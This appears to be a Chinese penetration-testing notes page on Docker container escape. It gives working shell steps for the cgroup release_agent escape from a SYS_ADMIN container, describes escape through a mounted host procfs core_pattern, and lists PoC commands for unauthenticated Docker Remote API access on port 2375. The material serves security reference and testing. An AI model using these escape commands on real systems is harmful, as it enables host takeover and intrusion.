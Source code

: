 1. 主机使用 SYS_ADMIN Linux capability 运行一个 docker 容器
    ```bash
    docker run -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
    ```

2. 挂载 cgroup 控制器并创建子 cgroup
    ```bash
    mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
    ```
    > 注:如果这里报错"mount: /tmp/cgrp: special device cgroup does not exist.",将 rdma 改为 memory

3. 创建 `/bin/sh` 进程并将其 PID 写入 cgroup.procs 文件，sh 退出后执行 release_agent 文件。
    ```bash
    echo 1 > /tmp/cgrp/x/notify_on_release
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo "$host_path/cmd" > /tmp/cgrp/release_agent

    cat /tmp/cgrp/release_agent

    echo '#!/bin/sh' > /cmd
    echo "ls > $host_path/output" >> /cmd
    chmod a+x /cmd
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    head /output
    ```

**挂载宿主机 Procfs 系统导致容器逃逸**
- 漏洞描述

    procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的 procfs 挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用 root 权限，且没有开启 User Namespace 时. 有些业务为了实现某些特殊需要，会将该文件系统挂载进来

    procfs 中的 `/proc/sys/kernel/core_pattern` 负责配置进程崩溃时内存转储数据的导出方式。从 2.6.19 内核版本开始，Linux 支持在 `/proc/sys/kernel/core_pattern` 中使用新语法。如果该文件中的首个字符是管道符 `|`，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。可以利用上述机制，在挂载了宿主机 procfs 的容器内实现逃逸。

- 相关文章
    - [挂载宿主机Procfs系统导致容器逃逸](https://github.com/Metarget/metarget/tree/master/writeups_cnv/mount-host-procfs)

**Docker Remote API 未授权访问漏洞**
- 漏洞描述

    Docker Remote API 是一个取代远程命令行界面（rcli）的 REST API。存在问题的版本分别为 1.3 和 1.6 因为权限控制等问题导致可以通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建 container，删除已有 container，甚至是获取宿主机的 shell。

- 相关文章
    - [新姿势之Docker Remote API未授权访问漏洞分析和利用](https://wooyun.js.org/drops/%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8.html)
    - [Docker Remote API未授权访问漏洞复现](https://zgao.top/docker-remote-api%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
    - [Docker daemon api 未授权访问漏洞](https://mp.weixin.qq.com/s/sPNEQ5n0rQEspTi7UescLg)
    - [针对暴露Docker.Sock的攻击总结](https://mp.weixin.qq.com/s/65XvaD_U3gkwzjXzrrwOpw)

- POC | Payload | exp
    - `http://[ip]:2375/version`
        ```bash
        docker -H tcp://[IP]:2375 version
        docker -H tcp://[IP]:2375 ps
